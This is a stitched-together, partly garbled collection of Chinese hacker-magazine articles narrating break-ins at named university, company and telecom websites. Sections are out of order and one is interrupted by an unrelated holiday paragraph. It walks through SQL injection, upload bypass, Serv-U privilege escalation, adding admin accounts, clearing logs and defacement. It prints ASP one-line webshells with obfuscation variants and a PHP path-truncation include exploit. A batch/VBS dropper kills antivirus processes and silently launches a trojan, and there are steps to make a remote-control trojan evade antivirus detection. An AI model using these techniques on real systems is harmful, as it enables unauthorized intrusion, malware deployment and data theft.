测试瑞星、卡巴、金山等均过，不过 NOD32。没事，我再用 Screnc.exe 工具用 `<%@ LANGUAGE = VBScript.Encode %>` 将它加密回去，这次就都过了，就不抓图浪费了，也不刻录杀软网上报病毒样品了，大家也来试试。

```vb
if Asc(Mid(temp,i,1)) < 32 Or Asc(Mid(temp,i,1)) > 126 Then
    a = a & Chr(Asc(Mid(temp, i, 1)))
else
    pk = asc(mid(temp,i,1)) - bu
    if pk > 126 then
        pk = pk - 95
    elseif pk < 32 then
        pk = pk + 95
    end if
    a = a & chr(pk)
end if
next
UnEncode = a
end function

data=UnEncode(request.form("temp"))
if data="" then data="nothing"
response.write "<form method='post'>"
response.write "<textarea name='temp' cols='80' rows='30'>"
response.write data
response.write "</textarea>"
response.write "<Input type='submit' name='Submit1' value='提交'>"
response.write "<Input type='reset' name='Submit32' value='重置'>"
response.write "</form>"
%>
```

提交它 `xu="*"` 的加密内容，（用 `*` 来代表我们看不懂的内容），我们来看看，如图5、图6。哈哈看到了，不过是个登录窗口，里边加了段流量统计代码。

```vb
response.write("<span style=display:none><script language='javascript' src='http://count288.51yes.com/click.aspx?id=2889886560&logo=11'></script></script></span>")
```


编辑点评：无语得很，大家下回甩别人写的木马的时候，请注意检查是否干净，以免辛苦载来被他人利用。


- 从本文可以学到：
- 旁注
- 提权

相继检测了本地的官方网站、人才网站后，近日又继续瞄准了初学者本站人气旺盛的招聘网站，如图1。这个站的业务还是很多的，粗粗地看了下，网站采用了 ASP 程序，检测不到注入点，也猜不到后台的登录页面，从主站入侵根本无法入手。由于不熟悉系统方面的入侵，看来得用旁注了。

## 一、旁注得到 WebShell

打开 http://www.myipneighbors.com/ 网站后，经查询，服务器下绑定了很多的网站，有 60 多个，如图2。

最终瞄准了一个厂家的网站：http://www.zphxsj.com/，用工具检测了下，很快就检测到注入点，可管理员的表名猜不到。登录后台页面，用万能密码试了下，如图3，竟然登录成功，如图4。

# 2008.02→[ 西线无战事 ]


看来安全性也不一定强啊。进入后台，点击“增加产品”出现“发布产品”页面，选择一个 ASP 马，点上传后，马上就弹出一个密码框，如图5。


明显是通过本地验证的，利用上传的漏洞，（这儿省略了过程，因为重点不在这部分）顺利拿到了网站的 WebShell，如图6。


## 二、初次提权受挫

现在，我们只拿到了同服务器的一个站的 WebShell，还是先来看看 WebShell 的权限吧。总得先收集点信息，便于下一步的入侵。不过这个 WebShell 权限很低，各盘不能浏览，不能执行 CMD 目录，检测不到终端端口，而且 WSCRIPT.SHELL 组件被删除了，如图7。

总算有点安慰的是可浏览 `C:\Program Files` 和 `C:\Documents and Settings` 下的文件。通过端口扫描，服务器开放了 21、3389 端口，而 1433 和 43589 端口没开放，如图8。

先在本地 CMD 下输入：`ftp 218.5.74.54` 命令查看，FTP 不是微软自带的，如图9。

可 Serv-U 的安装目录没有找到，不过在 `C:\Program Files` 目录下倒发现了 RAdmin，如图10。

最近不是很流行 RAdmin 的数据库漏洞来提权吗，先看看能不能利用注册表读取到 RAdmin 的有关信息，结果还是失败告终！如图11。看来还是权限的问题，这条路行不通了，郁闷。


## 三、新的发现

静下心来想了一下，服务器装有 Serv-U，肯定会在开始程序里出现的。那么在这儿会不会有所突破，找到 Serv-U 的安装目录呢？打开到 `C:\Docume~1\All Users\[开始]菜单\程序` 下，果然发现 Serv-U，如图12。

可 Serv-U 安装在什么目录下啊？最终想到一个办法，进入 `C:\Docume~1\All Users\[开始]菜单\程序\Serv-U FTP Server` 目录后，下载了 `Serv-U_Administrator.lnk` 文件到本地，通过查看其属性，呵呵，Serv-U 的安装目录终于被找到了，是在：`C:\Program Files\sfde5ga6hr6wfe5w\Serv-U`，如图13。

管理员也真是的，搞了个这么隐藏的目录啊。进入该目录，切换到 `C:\Program Files\sfde5ga6hr6wfe5w\Serv-U` 下，Serv-U 是 6.0.0.2 版本的，打开 `ServUDaemon.ini` 文件，没有管理员的密码设置，用户拥有 300 多个，而且也不能写入。不过下载了 `ServUDaemon.exe` 文件到本地后，用“Serv-U 提权综合工具.exe”顺利得到了用户名和密码，如图14。

刚才通过扫描端口，没发现 43589 端口，管理员也肯定是更改了。不过，这也难不倒我啊，下载 Serv-U 登录日志文件 `ServUStarUpLog.txt`，发现端口被改为：31254 了，如图15。


## 四、成功提权

知道 Serv-U 的用户名、密码和端口，我想这大家都会操作了吧。在 WebShell 中打开 Serv-U 提权工具，填好用户名、密码及端口，我这儿就添加一个 ysjy 的管理员用户了，如图16。


可这个东西，不管你是否提权成功，都会提示你提权完毕。我们怎么知道有没有添加管理员用户呢？从前面的信息知道，服务器是 Windows 2003 系统，我就上传个 ASPX 马吧。结果大吃一惊，ASPX 马的权限比 ASP 马高得多，可以执行 CMD 命令（真不知道高了多少，吓人），但也只能浏览到 `d:\wwwroot\` 目录下，上面竟然有 300 多个站。执行 `net user ysjy`，呵呵，ysjy 的管理员已成功添加上了，如图17。


既然能添加管理员，我就上传一个木马上去，再执行命令，不一会儿，就有主机上线了。看了下上线主机的 IP 正是服务器的地址（因当时没截图，写此文章时，系统漏洞已修补，无法再截图了）。

## 五、再次受挫

可当连接服务器 3389 端口时却出现了问题，如图18。


通过 `ipconfig /all` 命令查看，服务器应该不是内网的，如图19，可能是做了防火墙的限制了。

上传端口转发工具 `FPipe.exe` 到 `d:\wwwroot\zphx\` 下，在 CMD 命令下执行：

```bash
d:\wwwroot\zphx\FPipe.exe -l 90 -s 70 -r 3389 218.5.74.54
```

意思是监听本地的 90 端口，当有人连接到本地 90 端口时，都会通过本地的 70 端口转发到 `218.5.74.54` 的 3389 端口上。

（注意：被转发的端口不能被占用），可还是连接不上。想用 NC 反弹一个 CMDSHELL 也不行，用 ASPX 马再读取 `HKLM\SYSTEM\RAdmin\v2.0\server\parameters\parameter`，也出现错误。执行 `regedit -e d:\wwwroot\zphx\wwwroot\Pic\1.reg HKLM\SYSTEM\RAdmin\v2.0\server\parameters\parameter`，不能导出 `1.reg` 文件；可执行 `regedit -e d:\wwwroot\zphx\wwwroot\Pic\1.reg HKLM\SYSTEM\RAdmin\`，却导出了 `1.reg` 文件，再次郁闷!!!（以上问题，不知哪位大虾能帮忙解答下）这次入侵，感觉有没有登录到服务器的终端，不算入侵成功啊!!!


最后，还是个老生常谈的话题，不知道有多少国内的服务器是倒在 Serv-U 下的。这次入侵，虽然不尽人意，但还是学到了不少知识。

> 编辑点评：
> 思路的综合利用，渗透起来就会得心应手得多，平时多做些积累（比如 ASPX 的权限比 ASP 的高等）都可以在渗透过程中帮您节省时间，也少走很多弯路。

## 厦大，黑你不是我的错！..

### 一、入侵起因

今天没事做，来到百度搜索看有什么好东西，于是就想起了住在厦门那么多年，那用“厦门”做关键字看看有什么好东西，如图1：排行老大的竟是【厦门大学】[Xiamen University]。

看来流量不小啊！于是想起了帮它检测的念头！

### 二、陷入困境

工具促进生产力。说干就干，于是我拿起了工具想大干一场，打开啊D注入工具。我们先别急着看它的主站！主站应该很强悍，要不然早就被人家 XX 了，还轮得到我吗？我先打开 www.google.com，然后利用高级搜索，输入：`site:xmu.edu.cn`，并选择 100 项结果！GO…哇，好多哦！进入第一页，看看有没有什么动静。结果没找到注入点！再搜索第二页，我就不信注入漏洞绝种了！但是第二页还是没有，再来看看第三页，倒！还是没有！再第四页，还是没有，直到第六页，哗啦啦的红色字符跳动出来！哈哈，看来有希望了！猜出了用户名：admin，但是始终都猜不出密码，如图2。

而且 Google 搜索到最后一页了，就仅仅有四个注入。


## 四、雨过天晴

进入后台，看到简陋的后台，看来估计这套已经很久了吧！看到了显眼的上传字样，点进去！而且还……如图6。

选择好上传目录，随便找了个图片上传，提示：上传成功！我又顺便抓了只小马传了上去，却发生了一件事，如图7。好像过滤了。我改了小马的后缀为 lenk.asa，显示上传成功！如图8。

后来我发现原来它只过滤了 .asp 的文件，其他的没有过滤，我又上传了 .cer 等都可以！访问我的小马，我的小马早就静静地躺在服务器上面了！偷笑啊！拿了 13 的马传上去。就这样，顺利拿下了 webshell，如图9。

## 五、进军服务器

用 webshell 进入后，看看有没有 cmd 的运行权限，显示拒绝访问！跟我想的一样，后来我又传了 cmd 到 C:\Documents and Settings\All Users\Documents，运行 cmd，还是拒绝访问。还好 13 的乌鸦端口扫描功能发现了服务器开了 pcAnywhere，在服务器的硬盘上还搜了一会儿之后找到了 pcAnywhere 的密码，于是下载下来破解了密码，二话不说就拿起 pcAnywhere 连。

成功地连了上去！发现管理员 administrator 的用户锁定了。于是又跑回到 webshell，看到了熟悉的 43958 端口，用 Goldsun 的 Serv-U 提升权限 ASP 版，创建用户为 lenk$，密码：ice。果真创建了账户，如图10。

用 PC 连，然后重新启动，过一会儿用我的账户成功登录上去了！到此为止，已经拿到了服务器！如图11。


图2 猜出用户名


图3 猜出用户名和密码

了个注入点，账户密码都猜解出来了，如图3。

但是我用 MD5 破解器还是破不出来，难道这就是传说中的人品问题？！我想难道是工具的差异吗？我又拿起了另外的啊 D，扫了一下才发现，原来工具和工具之间是有差异的！就连同一个工具都不例外！我重新用工具在 Google 搜索，这次的注入点就比较多了！看来我的运气开始好起来了。看到了 http://isip.xmu.edu.cn/ 有注入点，出于好奇进去看看，原来是“信号与信息处理研究所安装标准化课题组”。后台管理还别具匠心地放在首页下方，用啊 D 猜解只能猜出 id，其余的什么也猜解不到。进去一看，用弱口令 “or'='or'” 进，进不了，难怪管理员那么大胆把后台放在首页！

接下来又看到了一个“厦门大学漳州校区学生会”，于是我进去主站看看！又是一个后台管理，如图4。

这回后台有了，管理员账号也有了，但是密码一直就猜不出来。真猴急啊！看得着却吃不着！

## 三、峰回路转

不过上帝还是公平的，我屁颠屁颠地走到了厦门大学生命科学学院。我粗略地看了下架构，怀疑是动易系统，拿起工具乱注，看到其他的文章都是 html 的静态网页，应该是动易 2005 的内核系统，试了动易的漏洞却让我失望。管理员还是蛮聪明的，还知道打补丁啊！说什么厦大的管理员也不是白当的啊！

我逛了逛整体的网站，意外地发现了里面又放了一个站，好像是提供给他们内部下载软件方便而开设的吧，叫做：常春藤——下载天空。拿起工具注进去看，抱着失望的心态随便看看。

意外的是竟然有低级的注入漏洞，如图5。

于是拿下了账号密码，接着就是找后台了，这个任务就交给工具。工具果然不负众望地检测出来。用拿到的账号密码登录成功，拿到了后台。嘿嘿！进入了后台，看看有什么好利用的！看到了天边的一道彩虹！激动 ing 啊！


图4 有后台管理链接


图5 找到低级的注射漏洞


图6 有上传链接

| 文件名 | 文件大小 | 上传路径 | 目标文件 | 上传结果 |
|---|---:|---|---|---|
| lenk.asp | 8512 |  |  |  |

图7 上传失败

| 源文件 | 文件大小 | 上传路径 | 目标文件 | 上传结果 |
|---|---:|---|---|---|
| lenk.asa | 696 | 2:\std\upload\sortie | lenk.asa | 成功 |

图8 上传成功


图9 得到 webshell

| 账户 | 权限/组 | 说明 |
|---|---|---|
| lenk$ |  |  |
| ice |  |  |

图10 成功创建了账号

接下去就是看看服务器里面放了什么好东西，连了连也没有什么有价值的东西。

清除了日志，闪人！

## 六、入侵总结

这次的入侵不算很幸运，也不算很成功！这次能拿到服务器的原因之一也是因为管理员没有修改 sa 的默认密码，让我有机可乘！虽然不知道出了什么问题，3389 都无法连接！不过也算拿到人家的网站，我们做人要厚道，不要搞什么破坏。

在入侵的过程中也学到了不少的东西，也认识到不少的朋友。当你们看到这篇文章的时候，我已经把漏洞告诉管理员了，希望你们也不要再次检测它了，毕竟人家也是厦大，中国的名牌大学！

> 编辑点评：利用工具完成注射渗透，涉及到其他的几个知识，大家看看就好了。


- 从本文可以学到：
- 注入北京理工大学
- 备份得到 webshell

还是上传一个黑页吧，上传到 h:\Century\ 下，如图7。地址是：http://century.bit.edu.cn/pcbaby.html，如图8。

这里我就不做太多的破坏了，给管理员桌面写封信，走人吧。

> 编辑点评：比较简单的一篇文章，使用的是注射和备份，得到 webshell。不过我对作者最后留黑页的做法并不欣赏，该招还是提醒？

国庆期间找到了北京理工大学的一个注入点，但是当时比较忙，过了一天居然用不了了，不知道怎么回事。近日无聊，又把那些注入点找出来玩玩，结果却让我成功注入了。

首先用啊 D 检测，发现是 DB_OWNER 权限，检测表段和字段都很成功，但是内容却出不来，如图1。

DB_OWNER 权限怎么注入呢？毕竟这是第一次注入网站，就遇到这种权限，听说现在的 sa 权限越来越少了，还是找找以前的资料吧。结果发现可以用数据库差异备份出小马。先找到网站的根目录地址，h:\Century\，如图2。

拿出备份数据库利用工具立马动手，备份成功，如图3。

在 IE 中打开看看，由于数据库较大，打开很卡，其实备份的时候也很卡。打开结果如图4。

用啊 D 检测也能发现成功备份了，如图5。

拿出 ASP+PHP 两用 Shell 连接，成功连接，如图6。


## 电信站我也来入侵


从本文可以学到：简单的渗透技巧

## 一、前奏

今天没事就在 QQ 对战平台上打 CS 了，由于水平比较菜，被人打得很惨就下来了。突然一哥们发来一个地址，说他参加了江苏电子竞技联赛。于是就来到了江苏电子竞技联赛的网站（如图1），是中国电信主办！

随便找了个链接，加个 `?` 试了 `and 1=1` 和 `and 1=2`，都返回错误页面，估计有戏！


## 二、过程

拿出啊 D 扫下，结果就出来了，是个 DB 权限，并且还搞出了管理员账号和密码，如图2。

扫了下后台没有找到，挨个工具也没扫出来，有点不爽。既然是个 DB，那就列目录吧，列出目录可以备份一句话拿 webshell。

幸好可以列目录，管理员太 BT 了，把目录设得相当隐藏，害我花了近一个小时才找到网站的物理路径。马上拿出 GetWebshell ah56bug 大众版，填好后提交，第一步就出错，如图3。


下面也不提交了，工具不行那就手工备份。我把提交的语句编码也没成功，都闹了一会儿，突然想到我可以通过列目录来查找后台，结果还真让我找到了（后台的目录不深，文件名是常见的，我纳闷为什么工具扫不出）。马上拿上面的账号和密码进入后台，如图4。

后台也蛮简陋的，不可以备份，不过还是可以上传的。经过我的折腾发现，是存在上传漏洞的，上传个 JPG 图片并用 WSockExpert 抓包，如图5。


不过传了 N 个了，没办法都被杀了，没办法就提交了这句：

`<%eval(request("#"))%>`

用一句话连接上去，如图8，这时候我们已经拿下这个站！


## 三、提权

我也试过提权，就开了 3389、80 和 1433 端口。由于本人水平有限，没拿下它的服务器权限，BT 了点，不能执行命令，懒得马虎查看服务器相关数据，如图9（后来 baidu 了下，知道 ADODB、Stream 被删了，N 郁闷！）。

C 盘一些关键的文件都没有可读权限，SA 密码没找到，D 盘就本站的目录能看，其他不能访问，没拿到服务器有点遗憾啊！


> 编辑点评：拿 webshell 过程比较常规，方法也是比较笨的体力活；后面的提权其实还是有其他方面可以尝试的，有了 webshell，总不能就这么轻易地放弃了吧。

## 我在入侵过程中注意到的细节（二）

从本文可以学到：入侵中特殊符号的灵活运用

上期我写的基本都是在人侵内网过程中要注意到的细节，不过现在流行的毕竟是注入了。现在常规注入针对的也就是 asp、php、jsp、cfm、cgi 等的动态脚本。针对各种脚本的话，如果注意一些细节，像构造特殊字符，也会起到很奇妙的作用。像最早的 `%5c` 桑库、`%00` 截断都是轰动一时的漏洞。这些漏洞被发现，无非是发现者对脚本语言的一些细节的重视。那么这一期我就来讲一下我会在注入过程中注意到的一些细节，主要是讲一些特殊符号了。

先来说一下 perl 吧。我对这门语言也不熟，毕竟市面上见到的少。针对 perl 入侵，大家最常用的普遍手法估计也就是两种：一种是想方设法向 cgi 文件里写入 webshell，另一种就是利用原来的 perl 程序来执行命令。第一种方法，一般会写入 “; system @ARGV; #” 这样的符号，如果是写在 1.pl 里的话，可以按照 1.pl?dir=c:\ 这样的写法去执行命令。另一种，如果原来网页 URL 是 http://www.xxx.com/1.pl?id=abc 的话，我们会尝试执行 http://www.xxx.com/1.pl?id=abc|uname 这样的参数，看一下能否执行 uname 命令。其实 `|` 算是 Linux 命令里的分隔符了，不算是 perl 的。不过 perl 里还有一个分隔符是 `@`，这个较少有人注意到。以前有一个很有名的雷傲论坛，好像在最新版里还有一个可以上传 webshell 的漏洞，如果没有在后台限制特殊符号注册用户账号的话。好久好久前我入侵过一个雷傲论坛，当时入侵的截图还在，如图1所示。


我们注册一个 q@lcx 的账户，然后再发一个内容为“@ and rename(qq{你上传的附件的物理路径}, qq{改名为你要的 webshell 的物理路径})”的帖子，示例如图1。然后再浏览帖子，你就可以得到一个 webshell 了。在这里因为分隔符，`@` 在这里是单引号的意思，qq 当然是双引号了，这样一来 q@lcx…… 就乱七八糟的内容就算是 perl 里有意义的东西了，不会影响到后边 rename 函数的执行。

那么再来说一下 php 吧。php 我最常用的就是“整路径”了。如果一个 URL 是 http://www.sohu.com/x.php?id=1，那我们改成 http://www.sohu.com/x.php?id[]=1 这样的语句来提交，如果错误没有屏蔽的话，成功率应当高达 60% 吧，和早期的 `%5c` 差不多。这里是因为 id 后边跟的一般是一个数值，如果我们改成 `[]` 的话，会让程序本身误以为跟了一个数组，所以程序就会出错，这和把 id=1 改成 id=a 或 id=1' 类似的意思，但是往往有的程序过滤得不严格，像只判断了是否是字符串和有单引号而遗漏了数组，从而让我们得逞。php 另一个鸡肋式的符号是 `` ` ``，这个本质也是执行符，像我们写成 ``ls -al`; echo $result; ?>`` 也会执行。不过只要服务器安全模式打开，或服务器权限设置得较为严格的话，不会让我们得逞，不过我们能够入侵成功，凭借的运气不也是依靠网管的懒惰吗？

最后再来讲一下大家耳熟能详的 asp 吧。asp 大家最了解的是 `%5c` 暴库和 `'or''='` 这个万能密码了。其实我以前用过 `%0d%0a`，这个应该不算是 asp 里的东西，可以算是 HTTP 服务器里的。多数 HTTP 服务器在收到包含 `%0d%0a` 的请求时会解析为回车并在日志中换行。asp+mssql 我们可以用到它来做分隔，能够使多条 SQL 语句执行。至于具体应用，网上有篇《讯时 CMS4.0sp5 商业版的致命伤》文章，大家可以百度一下看看。至于在 HTTP 服务器中的应用，可以通过发送 `%0d%0a` 或 `%u0d0a` 在日志中产生换行，从而可以伪造日志，使入侵行为掩盖在大量虚假日志中，难于找到真正的入侵者，给入侵分析带来困难。asp 再有一个就是 `%` 号了，很多人以前在上传或写入 webshell 的时候碰到过 `%` 号的情况，于是纷纷采用了冰河流行的 cs 木马，因为里边没有百分号。其实 asp 还有一个写法，是 `<script language=vbs runat=server> ......代码...... </script>` 这样的，于是我们可以把我们平常的一句话代码 `eval(request("#"))` 加在里边，这样就不用百分号了。我对 asp 熟悉一点，再多说一点，`<script language=vbs runat=server>eval(request("#"))</script>` 能怎样变形呢？我们可以写成 `<script language=vbs runat=server>eval(request(chr(35)))</script>` 使之消去双引号。如果不加密的话，我们还可以怎样改？我改一个给大家看一下，可以改成 `<script language=vbs runat=server>eval((((request(chr(35))))))</script>`，我多加了四个匹配的括号，照样可以运行的。还可以加更多吗？当然可以，这里的括号方法可以运用在 php 一句话木马里吗？亲爱的读者，剩下的工作就交给你去做了。

> 每次看 LCX 大哥的文章都会有新的收获，能学到不少东西，新鲜且实用。确实能在实际入侵中运用到，同样也可以作为知识储备存储在大脑里。

## 人偶神功

Php 脚本包含文件漏洞中大家常用 `%00` 来截断，现在的 PHP 版本基本上已经失效了。但是亲爱的 cloie 同学给我们提供了另外一个截断 bug，今天就和大家一起测试一下这个小技巧。先看漏洞文件：

```php
<?php // vul.php
include($_GET[a].".php");
?>
```

原理：操作系统对文件名有长度的限制，如果我们的 `$_GET[file]` 超过这个长度限制，那么 PHP 代码中最后面的 “.php” 就会失效。

利用方法：`vul.php?a=some.txt/////////////////////////////....[超过一定数量的 /]`

实际测试，PHP Version 5.2.1 + win2003

```php
<?php
// test.php 文件代码
$a='';
for($i=0;$i<=4070;$i++){
    $a.='/';
}
$a='aaa.txt'.$a;
require_once($a.'.php');
?>
```

很快的，又到了一年一度的春节。据谷歌记载，春节在原始时代叫“载”；夏代叫“岁”；商代叫“祀”；周代才叫“年”。“年”的本义指谷物生长周期。谷子一生一熟，所以春节才一次，含有庆丰年的寓意。又传，春节起源于原始社会末期的“腊祭”；当时每逢腊尽春来，先民便杀猪宰羊，祭祝神鬼与祖灵，祈求新的一年风调雨顺，免去灾祸。随着时代的进步，现在除了放假没怎么变化之外，总觉得春节好像都稍有点变味了，你觉得呢？

## 再过瑞星主动防御

**从本文你可以学到：**

如何过瑞星主动防御

瑞星是国内用户较为喜欢的一款杀毒软件，因此人们在制作木马程序免杀的时候，往往就以它为一个重要的参照物。尤其是瑞星 2008 加入了主动防御功能，再加上其本来就非常强悍的内存杀毒，更让免杀感到前所未有的棘手和麻烦。于是我们今天再来探究一下，如何躲过瑞星的主动防御功能。

## 一、简单介绍过程

以前我们曾经介绍过，瑞星 2008 的主动防御也加入了部分的特征码，因此只需要通过 MYCCL 查找特征码，再进行相关的修改以后就可以躲过主动防御。但是这只是在瑞星杀毒软件的默认状态下，如果用户增加了“主动防御功能运用的规则”，当出现线程插入等操作的时候，主动防御功能仍然会进行相关的安全提示。因此今天我们就采用以暴制暴的方法，通过脚本程序直接结束瑞星杀毒软件的相关进程，让杀毒软件彻底地从 Windows 系统里面消失，这样瑞星就是想拦截也是无能为力了。这样就成功地躲过主动防御的相关检测提示，省去了检测主动防御特征码的时间，也给刚刚接触免杀的用户提供了一个简便的方法。

## 二、实际操作过程

### 1. 配置服务端程序

木马程序的配置过程我就不多说了，但是有些重要的地方我还是要强调的。比如用鸽子的话，在配置木马的时候就不要选择“隐藏服务端进程”选项，因为利用 Rootkit 隐藏的进程会被主动防御发现。至于“使用 IE 浏览器进程启动服务端程序”选项，可以根据自己的需要进行选择，毕竟某些鸽子没有像灰鸽子 VIP 版那样进行线程插入，如图1。


插入，如图1。

另外，有的木马程序会带有磁盘感染这样的功能，这个功能也不要进行选择，因为感染对我们抓鸡并没有实际作用，同时也会引起主动防御的拦截。这么设置对过其他的主动防御软件，也有一定的借鉴作用。由于今天主要是讲如何突破主动防御，文件免杀等内容也就不进行讲解了。

### 2. 编写批处理文件

打开一个记事本程序，输入下面的批处理文件代码，然后将其另存为 **killrav.bat**。

```bat
@ECHO OFF
knlps.exe >PID.TXT
FINDSTR /I "RavMon.exe" PID.txt >>RAV.txt
FINDSTR /I "RavMond.exe" PID.txt >>RAV.txt
FINDSTR /I "CCenter.exe" PID.txt >>RAV.txt
FOR /F "eol=; tokens=1 delims= " %%I in (RAV.txt) do knlps.exe -k %%I
%systemroot%\temp\svch0st.Exe
for %%i in (%temp%\tmp$$$.vbs) do del %%i
RD /S /Q %systemroot%\temp\
```

虽然在 Windows XP 专业版系统中，可以通过 Tasklist 来列出系统当前的进程，但并不适用于所有的 Windows 版本，不一定都带有 Tasklist 这样的进程查看程序。因此利用第三方工具 knlps.exe 来完成进程的检测和结束工作。查找出的进程是否有瑞星杀毒软件的信息，有的话将其输入到 rav.txt 这个文本文件里面。当然大家也可以依葫芦画瓢，加入其他的杀毒软件进程，比如江民、诺顿、NOD32 等。

通过循环分别结束 rav.txt 中的进程信息。当然大家也可以跟上一段更改系统时间的代码，从而突破卡巴斯基的主动防御。

运行解压后生成的服务端程序。

打扫战场，删除临时文件目录。

```php
<?php
// aaa.txt 文件代码，里面实际上是 PHP 代码。
echo 'haha';
?>
```


测试结果如图1，成功执行了代码。

这个漏洞要结合具体的脚本漏洞才能利用，而且只能用在 Windows 环境下，但是在某些时候威力还是很大的。最后要感谢 cloie 的分享精神。

> 编辑点评：
> 可能是由于我的系统问题，XP 下貌似没办法成功。我问了几个朋友，纯理论上存在这个缺陷，有条件的朋友可以测试一下。这个缺陷确实威力不小，只要对 GET 来的变量没有过滤 “/” 这个符号，我们岂不是可以包含自己构造的任何文件？

### 3. 编写关联的脚本

接着再打开一个文本编辑器，输入以下的代码来编写一个脚本，让它来执行上面编写的批处理文件，最后另存为 **killrav.vbs**。

```vbscript
set ws=wscript.createobject("wscript.shell")
ws.run "killrav.bat",0
wscript.sleep 20000
```

### 4. 打包所有的文件

现在用 WinRAR 来进行文件的打包操作。在自解压窗口的“解压路径”选项中填入系统临时目录的地址 **%systemroot%\temp\**。再在“解压缩之后运行”中输入脚本文件 **killrav.vbs**，并且选中“全部隐藏”和“覆盖所有文件”这两个选项，最后点击“确定”按钮就可以成功地进行打包压缩，如图2。

虽然到此为止我们已经可以进行使用了，但是现在的自解压文件还不完美，因为任何人通过压缩软件都可以对其进行解压。现在运行一款名为“WinRAR 自解压完美免杀补丁”的程序，将刚刚生成的自解压文件拖拽到程序窗口后，点击“应用”按钮就可以完成操作。该程序还可以进一步地进行免杀处理，如图3。


## 让杀软自扇耳光：黑洞

## 打造绕杀瑞星烦透版的黑洞

从本文你可以学习到：

- 如何对黑洞远程控制程序进行免杀

黑洞是一款很不错的远程控制软件，现在最新版本为 1.96。虽说老陈打算把它做成一款正规的远程控制软件，在一些方面做了限制，比如不提供进程隐藏，不提供键盘记录，安装需要提示、运行后在右下角任务栏显示图标等。但由于它的屏幕控制速度快和良好的稳定性能，所以不能阻止我们把它当成一个优良的木马来使用。

黑洞生成的服务端是不能用工具查看它的资源进行导出修改免杀的，网络上现有 2 种方法对其进行免杀。首先是配置一个服务端，自己运行后在 system32 目录下，找到释放出的 dll 文件，再进行免杀处理；然后用老陈提供的 dll 提取工具提取，进行免杀。dll 和文件免杀完毕后，再进行服务名修改。经过以上的操作后才能得到一个免杀的服务端，但有时由于需要，会多次生成不同上线地址的服务端。这个时候免杀和修改服务端特别浪费时间。但由于老陈给黑洞加了重壳，我没办法脱掉，所以也就不能研究黑洞的主程序了。后来无意中在网上发现了有小厂脱掉壳的 1.96 版，于是就开始捣鼓起了黑洞主程序。

## 摆脱支持假设

由于黑洞在不连接网络的情况下也能生成服务端，黑洞主控端运行后只生成一个大约 83K 的 dat 文件，与生成后的服务端大小相差很大，所以黑洞的服务端资源文件应该是在主程序中。如果我找到它的资源文件导出并进行常规的免杀和默认服务名的修改，然后导回去以后生成的新服务端将会直接免杀了。以前就采用这种方法免杀过上兴远控的共享版。于是我把无壳的黑洞主控端丢进 ResScope 和 Restorator 2007，把里面的数据翻了个遍，始终没发现服务端的资源文件。在和免杀群里的兄弟们说了这个现象，有人告诉我黑洞的服务端应该是以数组方式来存放数据的，是用资源工具直接查看不了它的资源文件的。既然它是存在于主程序里，那么一定有能看它的数据的方法。我决定用 16 进制的方法去查看看，于是又把黑洞主控端丢进 c32asm 里面以 16 进制打开，然后同时用 c32asm 打开一个配置好的服务端，在服务端里随便以 16 进制的方式复制一段数据，然后再用 c32asm 打开。接着在黑洞主程序界面上按 Ctrl+F，跳出查找对话框，在类型处选择“16 进制搜索”，填入刚在服务端复制的一段数据，然后点击“下一个”，果然在主程序中找到了相同的数据。为了确定我的想法，就在服务端里换了十几个地方的数据，都能在主程序找到相同的数据。由此证明另外的说法，黑洞的服务端的数据确实是和主控里以 16 进制形式可以得到的。既然这样，那我就可以通过修改特征码的方式免杀服务端后，把修改后的数据直接在主程序里修改，就能得到一个生成免杀的黑洞。既然假设成立，那现在就开始我们的免杀改造之旅。

## 实践

### 一、修改主程序，去除任务栏图标

黑洞生成服务端时，默认情况下有个“任务栏显示服务端图标”选项，这是不能取消掉的。网络上现流行 2 种解决方法：一是用按钮突破专家去掉灰色的勾后，生成的服务端就不会在任务栏显示图标；二是使用修改汇编代码的方式修改。首先生成一个无壳服务端，用 c32asm 载入一次汇编模式，快捷键“CTRL+G”，在跳出的窗口输入地址“0043EA84”，确定到达地址，我们看到：

```text
0043EA84: B0 01    MOV AL,1
```

进行汇编，将“MOV AL,1”改为“MOV AL,0”（网上只有 1.8 和 1.91 的地址，1.96 是我试验后找出来的）。

现在我就带领大家进入第 3 种方法突破这个限制，达到一次修改，一劳永逸。首先拿起 PE Explorer，用它载入黑洞主控端。完毕后，点击彩色菱形图标（资源查看/编辑器），将出现黑洞主程序的所有信息资源，然后点击 RC 数据下的“tfrmcreateinstallserver”，双击后在弹出的新对话框依次点击“Pagecontrol1.tpskinpagecontrol、tabsheet2.tspskintabsheet、checkbox.enabletrayIcon.tspskincheckradiobox”，右边箭头下拉到最下端，将下面的 enabled 的值由 false 改为 True，如图 1。


修改完毕后点击应用保存，然后点击确定，更新资源时会弹出一个警告信息框，点“是”返回主界面后，按 Ctrl+S 将文件保存为新文件。运行修改后的主程序，点击配置服务端时，会发现任务栏显示图标的选项不再是灰色不可选的，而是和其他选项一样可以自由选择，如图 2。


到此，我们就完美地突破了任务栏图标显示不可更改的问题，避免了以后要频繁地动用按钮突破专家或者 c32asm 进行汇编代码修改，达到了“一次修改，一劳永逸”的效果。

### 二、制作生成免杀服务端

做免杀我一直喜欢修改特征码，虽然麻烦点，但是效果相对而言，个人感觉良好。我们现在开始制作一个生成后直接免瑞星和卡巴的黑洞。由于 dll 服务端穿墙性能和隐藏性能要比 exe 的好，所以我就用 dll 版本做演示。首先配置一个无壳的 dll 服务端，黑洞 dll 版服务端运行后会生成 brc_Server.dll、brc_Server.exe 和 brc_Server.dat 3 个文件，其中 dat 文件是上线配置信息，杀软不会查杀，剩下的 dll 和 exe 都会被查杀，所以我们要对 dll 和 exe 文件进行免疫处理。首先定好它们的瑞星和卡巴特征码（定位特征码如果不会的话请翻阅以前的《黑手杂志》），用 c32asm 打开无壳的黑洞主程序和 DLL 文件：

瑞星 DLL：

```text
Codz1=H_00041734_00041743_00000010_00041734
```

瑞星 EXE：

```text
Codz1=H_0000E528_0000E52B_00000004_0001D950
Codz2=H_0001D9D0_0001D9E0_00000004_0001D950
Codz3=H_0001DFA9_0001DFAC_00000004_0001D950
Codz4=H_0001E115_0001E118_00000004_0001D950
```

| 服务端特征码地址 | 主控端 16 进制地址 | 反汇编修改地址 | 特征码修改 |
|---|---|---|---|
| 0000E528 | 00254A24 | 00543A26 | JNZ 改为 JMP |
| 0001D9DD | 00254ED9 | 00543DB8 | JZ 改为 JMP |
| 0001DFA9 | 00255495 | 005654A7 | JE 改为 JMP |
| 0001E115 | 00255611 | 00655613 | JE 改为 JMP |

图 5 特征码的修改方法

